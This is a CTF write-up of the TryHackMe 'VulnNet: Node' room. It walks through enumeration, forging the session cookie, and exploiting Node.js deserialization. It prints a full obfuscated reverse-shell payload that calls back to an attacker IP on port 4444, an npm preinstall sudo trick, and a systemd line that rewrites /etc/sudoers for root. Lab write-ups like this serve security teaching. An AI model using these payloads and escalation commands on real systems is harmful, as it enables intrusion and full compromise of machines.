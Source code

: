 ```yaml
---
title: "VulnNet Node TryHackMe"
date: "07-23-2021"
author: "Reda BELHAJ"
summary: "VulnNet Entertainment has moved its infrastructure and now they're confident that no breach will happen again. You're tasked to prove otherwise and penetrate their network. This room is Created by TheCyb3rW0lf"
tags: ["TryHackMe", "Ctf", "Writeup"]
image: "/images/VulnNet/bg.jpg"
---
```

Let’s take a look at the [VulnNet: Node CTF](https://tryhackme.com/room/vulnnetnode) on TryHackMe.

## Enumeration
### Nmap Scan

The first step of my enumeration was a scan with **nmap**. by the command:

```
sudo nmap 10.10.143.49 -sC -sS -Pn
```
The “Nmap Output” displayed `1` service running under port 8080 you guessed it that's HTTP.
![Nmap](/images/VulnNet/nmap.jpg)
Connecting to this port in a browser shows a web page with posts

### Gobuster Scan
I next decided to run a gobuster scan on the webserver to see if there were any interesting hidden directories, by the command:
![Gobuster](/images/VulnNet/gobuster.jpg)

## Exploring 
Let's take a closer look at the web application. When we visit the website, we are presented with a regular online application  with posts from users.

So by Exploring the web app I saw the Welcome guest header and I decided to intercept the servers main page request using burpsuite, And I found:
![Burp](/images/VulnNet/burp.jpg)

A session cookie is visible in the request. So I sent the cookie to the decoder Tab:
![Decode](/images/VulnNet/decode.jpg)

So by decoding the cookie We have some JSON informations, My first assumption was maybe we could be able to bypass the application and I tried to set a new cookie with:
![Encode](/images/VulnNet/encode.jpg)

Then I replaced the guest cookie with the encoded modified cookie and it output the following:
![Admin](/images/VulnNet/admin.jpg)

![Admin 2](/images/VulnNet/admin2.jpg)

Next I decided to go to /login but I didn't found nothing, So I began to consider that maybe the login page is a rabbit hole and I came up with this idea 🤔 .

> What if I sent an invalid cookie

![Error](/images/VulnNet/error.jpg)

## Exploiting

Searching for “nodejs unserialize reverse shell” leads to [this page](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) which I followed to generate the reverse shell payload. and I also came across [this repository](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) and I run this command:

```
python nodeshell.py 127.0.0.1 4444
```

Now let’s generate the serialized payload and add:

```
{"rce":"_$$ND_FUNC$$_function (){// The payload //}()"}
```

```
{"rce":"_$$ND_FUNC$$_function (){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,56,46,49,55,52,46,49,56,48,34,59,10,80,79,82,84,61,34,52,52,52,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}

```
Finally, base64-encode the serialized payload as follows:
![payload](/images/VulnNet/encodepaylo.jpg)

## User Flag
And now I got the reverse shell as `www`
So I checked [GTFObins](https://gtfobins.github.io/gtfobins/npm/#sudo) so that I spawn a bash shell as `serv-manage`.
![sudo](/images/VulnNet/sudo.jpg)

```
echo '{"scripts": {"preinstall": "/bin/sh"}}' > exploit/package.json
sudo -u serv-manage /usr/bin/npm -C /dev/shm/exploit/ --unsafe-perm i
```
Let’s get the user flag in /home/serv-manage

```
THM{0********************************
```

## Root Flag
So now I tried the infamous `sudo -l` comand to privilege escalate the system again:

![sudo 2](/images/VulnNet/sudo2.jpg)

```
cat /etc/systemd/system/vulnnet-auto.timer
```
The service executes df system command:

```
[Unit]
Description=Run VulnNet utilities every 30 min
 
[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/1
Unit=vulnnet-job.service
 
[Install]
WantedBy=basic.target
```
So Now I added this line in the file:

```
ExecStart=/bin/sh -c 'echo "serv-manage ALL=(root) NOPASSWD: ALL" > /etc/sudoers'
```

And now we're root, Let's check the root dir for a flag:

```
THM{a********************************
```
